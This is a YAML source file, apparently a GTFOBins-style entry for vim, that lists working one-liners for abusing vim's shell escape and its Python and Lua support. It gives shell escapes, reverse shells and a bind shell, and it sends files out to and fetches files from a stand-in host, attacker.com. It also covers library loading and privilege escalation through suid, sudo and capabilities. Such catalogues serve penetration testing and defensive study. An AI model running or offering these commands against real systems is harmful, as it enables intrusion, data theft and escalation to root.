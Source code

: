 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - description: This one liner will open a shell before opening vim.
    - code: vim --cmd ':set shell=/bin/bash|:shell'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: vim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  library-load:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: sudo vim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vim` is compiled with Lua support.
      code: ./vim -c ':lua os.execute("reset; exec sh")'
---
```

